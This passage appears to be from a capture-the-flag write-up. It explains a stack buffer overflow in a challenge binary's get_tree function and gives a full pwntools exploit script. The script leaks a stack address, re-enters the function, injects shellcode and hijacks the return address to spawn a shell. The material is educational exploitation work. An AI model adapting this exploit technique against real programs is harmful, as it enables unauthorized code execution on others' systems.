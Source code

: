 That nonsensical negative number is actually the address of var_10ch, where we put our input! 

So to spawn a shell and get our flag we can do the following: 
- Write shellcode into var_10ch
- Overwrite the return address of EIP, so that instead of going back to main, the function jumps to the location of var_10ch and executes the shellcode.

The only problem with this is that the address of var_10ch is leaked only after we send it some input. 

Here are some revised steps that will let us spawn a shell:
- Send var_10ch some input
- Get the address of var_10ch
- Run get_tree again by overwriting EIP to the address of get_tree when we initially send var_10ch some input
- In our second run of get_tree, send our shellcode, plus the address of var_10ch

The above steps should cause the shellcode stored in var_10ch to execute, spawning a shell and let us get the flag. 

Knowing this, let's write our exploit. 

```
from pwn import *

#get the address of get_tree
get_tree_addr = p32(ELF('./osrs').symbols['get_tree'])

offset = 0x10C + 4
#junk to fill up var_10ch, and then overwrite EBP (EBP takes up 4 bytes, which is why we add 4) 
junk = offset * "A"

#first input to send when we initially run get_tree
firstInput = junk + get_tree_addr

#start the process
r = process('./osrs')

#send firstInput after the intial prompt asking us for a tree
print(r.sendlineafter(': \n', firstInput))

#recieve up until the negative number in the output 
print(r.recvuntil('tree '))

#grab the negative number that tells us the address of var_10ch
recvInt = int(r.recvuntil(' '))

#convert the negative number we get its positive hex number representation using two's complement (I will write more about this later) 
var_10ch_addr = (1<<32) + recvInt

var_10ch_addr = p32(var_10ch_addr)

#craft our shellcode, pwntools has built in tools for this, in this case, we are using shellcode to spawn a shell 
shellcode = asm(shellcraft.i386.linux.sh(), arch='i386')

#create our second input of our shellcode, with some padding at the end of it using .ljust, and the address of var_10ch where our shellcode is going to be in memory
secondInput = shellcode.ljust(offset) + var_10ch_addr

#send our secondInput
r.sendlineafter(': \n', secondInput)

#allow us to interact with the binary after we send the secondInput
r.interactive()
```